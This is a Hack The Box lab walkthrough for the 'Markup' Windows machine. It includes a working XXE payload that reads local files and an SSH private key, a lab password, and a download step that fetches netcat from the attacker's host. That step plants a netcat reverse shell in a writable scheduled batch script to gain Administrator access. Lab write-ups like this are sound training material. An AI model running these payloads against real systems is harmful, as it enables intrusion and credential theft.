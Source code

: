 Hack The Box :: Starting Point :: Markup :: Windows

# Enumeration

We begin by running an Nmap scan.
`nmap -sV -sC -p- -Pn 10.10.10.49 --min-rate=10000`

![nmap.png](../_resources/d87e056e2b4b7d4d635470df844ce709.png)

Nmap reveals four ports open, out of which ports 22 and 80 are of importance. Let's check out the website on port 80.

[login.webp](../_resources/a5ff28d8e033018baf88d8f0cc1b696b.webp)

In the previous machine, we found credentials stored in an SQL dump. Let's try to reuse them, to log into the application. The credentials `daniel : >SNDv*2wzLWf` are found to be valid and let us into the application.

[home.webp](../_resources/0c9f66188eb8f8e4e99019e4b3baa6f5.webp)

# Foothold

Once logged in, we see that the website has functionality for submitting orders.

[order.webp](../_resources/6ee37160cb0b86dc60790e1e9927f639.webp)

Let's intercept the request with Burp. To setup Burp, open the browser settings, navigate to proxy settings and click `manual proxy`. In the proxy settings, input `127.0.0.1` as the proxy address and `8080` as the proxy port. Navigating to the website and submiting an order, we see data is sent to the server in XML format.

[burp_order.webp](../_resources/1590d97cb9d674a2eef3e9c889ddc29d.webp)

The server returns the following response message.
<img src="/storage/startingpoint/Markup/message.png" style="zoom: 80%;" />

As data is processed in XML format, there is good chance of an XXE (XML External Entity) vulnerability. An XXE vulnerability occurs due to unsafe parsing of XML input, leading to LFI as well as RCE. Testing with the following payload yields good results.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>`

[xxe_win_ini.webp](../_resources/9455a6755a337fbc8ead966a7affd0a0.webp)

The `services.php` source code, reveals a username `Daniel`.

	<!DOCTYPE html>
	<html lang="en">
	<head>
	<meta charset="UTF-8">
	<title>Goods & Services</title>
	<!-- Modified by Daniel : UI-Fix-9092-->
	<style>

We also have port 22 open which is the SSH server port. SSH private keys are usually stored in `C:\Users\username\.ssh\id_rsa`. Let's check if there are any accessible keys in that folder via XXE.

[xxe_key.webp](../_resources/de0ad361f30c60e11b34cbbe72af0567.webp)

The exfiltration was successful and the private key can be used to login to the server as `daniel`.

	chmod 400 id_rsa
	ssh -i id_rsa daniel@10.10.10.49

The user flag is located in `C:\Users\Daniel\Desktop\user.txt`.

# Privilege Escalation

On enumerating the system, a script named **job.bat** is discovered in the **C:\Log-Management** folder.

[job.webp](../_resources/ca8bf9f9e34867b73f31a97ab0f55bf1.webp)

Looking at the output, we can see that the script requires administrator privilege in order to run.

[job_run.webp](../_resources/0d8d8ad69d5e8223b7a6adf9c32e9645.webp)

The script simply clears the system event logs.

![bat.png](../_resources/d227551c4af6e85b2772cd8d5686387d.png)

Looking at the permissions of **job.bat** using `icacls` reveals that the group `BUILTIN\Users` has full control (F) over the file. The `BUILTIN\Users` group represents all local users, which includes `Daniel` as well.

[icacls.webp](../_resources/5c2de12787fef42861c215eeba4b8297.webp)

We can get a shell by transferring netcat to the system and modifying the script to execute a reverse shell.

	python3 -m http.server 8000
	curl http://<your_ip>:8000/nc.exe -o c:\users\daniel\nc.exe
	echo C:\Users\daniel\nc.exe -e cmd.exe <your_ip> 1234 > C:\Log-Management\job.bat

The next time this scheduled job runs, a reverse shell with `Administrator` privileges should be received.

[root.webp](../_resources/d9c2e27009364679cf46772c63b5d607.webp)

The root flag is located in `C:\Users\Administrator\Desktopoot.txt`.